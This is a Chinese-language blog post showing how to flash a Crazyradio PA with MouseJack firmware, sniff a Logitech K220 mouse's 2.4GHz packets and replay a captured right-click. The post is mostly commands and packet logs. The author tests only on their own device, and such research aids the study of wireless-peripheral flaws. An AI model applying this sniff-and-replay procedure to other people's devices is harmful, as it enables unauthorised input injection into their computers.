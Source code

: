 ```yaml
---
layout:		post
title:		利用Crazyradio劫持无线鼠标&重放攻击
author:		wooy0ung
tags:		wireless
category:  	iot
---
```



>说明：  
>通过Crazyradio + MouseJack项目可以简答地对2.4GHz无线设备的工作频段进行嗅探，分析传输信号，进一步重放攻击。  
>环境：  
>Kali Linux 2018.2 amd64  
>设备:  
>1. Crazyradio PA 一只  
>2. 罗技K220键鼠一套  
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x001.png)
<!-- more -->


Crazyradio接入，刚买的设备id为1915:7777
```
$ lsusb
```
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x002.png)

安装依赖
```
$ sudo apt install sdcc binutils python python-pip
$ pip install pyusb
$ pip install platformio
```

刷入crazyradio pa固件
```
$ git clone https://github.com/bitcraze/crazyradio-firmware
$ cd crazyradio-firmware
$ python usbtools/launchBootloader.py	# 有时候会报错，多尝试几次
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x003.png)
显示这样，就是bootloader启动成功

烧录固件
```
$ wget https://github.com/bitcraze/crazyradio-firmware/releases/download/0.53/cradio-pa-0.53.bin
$ python usbtools/nrfbootload.py flash cradio-pa-0.53.bin
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x004.png)
烧录成功，重新插拔设备

这时设备id为1915:0101
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x005.png)

编译MouseJack项目
```
$ git clone --recursive https://github.com/RFStorm/mousejack.git
$ cd mousejack
$ make
$ make install
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x006.png)
刷入成功

重新插拔设备，现在id为1915:0102
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x007.png)

扫描一下附近的无线设备
```
$ cd ./nrf-research-firmware/tools
$ ./nrf24-scanner.py
[2018-07-04 20:33:04.913]  74  10  62:10:91:08:A4  00:C2:00:00:FF:6F:00:00:00:D0
[2018-07-04 20:33:04.926]  74  10  62:10:91:08:A4  00:C2:00:00:00:10:00:00:00:2E
[2018-07-04 20:33:04.934]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:04.960]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:07.318]  14  10  62:10:91:08:A4  00:C2:00:00:FC:3F:00:00:00:03
[2018-07-04 20:33:15.953]  14   0  62:10:91:08:A4  
[2018-07-04 20:33:17.732]  31  10  62:10:91:08:A4  00:C2:00:00:F1:DF:FE:00:00:70
[2018-07-04 20:33:21.906]  70   0  62:10:91:08:A4  
[2018-07-04 20:33:22.301]  74   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:33:32.628]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:32.711]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:42.244]  17  10  62:10:91:08:A4  00:C2:00:00:FF:0F:00:00:00:30
[2018-07-04 20:33:42.256]  17   0  62:10:91:08:A4  
[2018-07-04 20:33:42.299]  17  10  62:10:91:08:A4  00:C2:00:00:FE:0F:00:00:00:31
[2018-07-04 20:33:50.347]  11  10  62:10:91:08:A4  00:C2:00:00:0D:20:FF:00:00:12
[2018-07-04 20:33:50.974]  17  10  62:10:91:08:A4  00:C2:00:00:DA:0F:00:00:00:55
[2018-07-04 20:34:07.962]  14  10  62:10:91:08:A4  00:C2:00:00:01:E0:FF:00:00:5E
[2018-07-04 20:34:07.970]  14  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:07.998]  14  10  62:10:91:08:A4  00:C2:00:00:01:D0:FF:00:00:6E
[2018-07-04 20:34:08.247]  17  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:15.651]   5  10  6B:AD:EE:72:B4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:34:16.054]   8   0  6B:AD:EE:72:B4  
[2018-07-04 20:34:35.945]  32   0  62:10:91:08:A4  
[2018-07-04 20:34:36.244]  35  10  62:10:91:08:A4  00:C2:00:00:04:10:00:00:00:2A
```
通过对无线设备进行操作，可以嗅探出设备的MAC地址信息

我这里有一套存在漏洞的罗技K220键鼠，可以确定鼠标的MAC地址是62:10:91:08:A4

现在有针对性嗅探鼠标，注意每次重新执行脚本都需要插拔设备
```
$ ./nrf24-sniffer.py -a 62:10:91:08:A4
[2018-07-04 20:43:44.083]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.090]   5  10  62:10:91:08:A4  00:C2:00:00:05:D0:FF:00:00:6A
[2018-07-04 20:43:44.098]   5  10  62:10:91:08:A4  00:C2:00:00:02:00:00:00:00:3C
[2018-07-04 20:43:44.105]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.113]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.191]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.195]   5  10  62:10:91:08:A4  00:C2:00:00:FF:2F:00:00:00:10
[2018-07-04 20:43:44.205]   5  10  62:10:91:08:A4  00:C2:00:00:FA:3F:00:00:00:05
[2018-07-04 20:43:44.209]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.223]   5  10  62:10:91:08:A4  00:C2:00:00:FB:5F:00:00:00:E4
[2018-07-04 20:43:44.226]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.234]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.245]   5  10  62:10:91:08:A4  00:C2:00:00:FB:8F:00:00:00:B4
[2018-07-04 20:43:44.258]   5  10  62:10:91:08:A4  00:C2:00:00:F8:7F:00:00:00:C7
[2018-07-04 20:43:44.261]   5  10  62:10:91:08:A4  00:C2:00:00:F9:6F:00:00:00:D6
[2018-07-04 20:43:44.268]   5  10  62:10:91:08:A4  00:C2:00:00:F7:5F:00:00:00:E8
[2018-07-04 20:43:44.279]   5  10  62:10:91:08:A4  00:C2:00:00:F8:6F:00:00:00:D7
[2018-07-04 20:43:44.287]   5  10  62:10:91:08:A4  00:C2:00:00:FB:3F:00:00:00:04
[2018-07-04 20:43:44.295]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.303]   5  10  62:10:91:08:A4  00:C2:00:00:FB:2F:00:00:00:14
[2018-07-04 20:43:44.310]   5  10  62:10:91:08:A4  00:C2:00:00:FF:1F:00:00:00:20
[2018-07-04 20:43:44.318]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.397]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.474]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.551]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.631]   5   5  62:10:91:08:A4  00:40:00:55:6B
```
通过移动或者点击鼠标，就能嗅探到大量数据

点击鼠标右键，持续嗅探
```
# 信道
4 5 7 13 16 17 31 40 43 65 73

# 右键按下
[2018-07-04 23:22:22.865]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:22:22.873]   4  10  62:10:91:08:A4  00:C2:02:00:00:00:00:00:00:3C
[2018-07-04 23:22:22.882]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C

# 右键松开
[2018-07-04 23:23:16.102]  13  10  62:10:91:08:A4  00:C2:00:00:00:00:00:00:00:3E
[2018-07-04 23:23:16.109]  13  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:23:16.185]  13   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 23:23:16.263]  13  10  62:10:91:08:A4  00:4F:00:03:70:00:00:00:00:3E
```

重放攻击以验证猜测
```
$ python replay.py -c 4 5 7 13 16 17 31 40 43 65 73 -a 62:10:91:08:A4 -d 00:4F:00:00:55:00:00:00:00:5C 00:C2:02:00:00:00:00:00:00:3C 00:4F:00:00:55:00:00:00:00:5C
Trying address 62:10:91:08:A4 on channel 13
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 40
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 16
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 43
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
```

成功出现了右键点击现象，重放成功
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x008.png)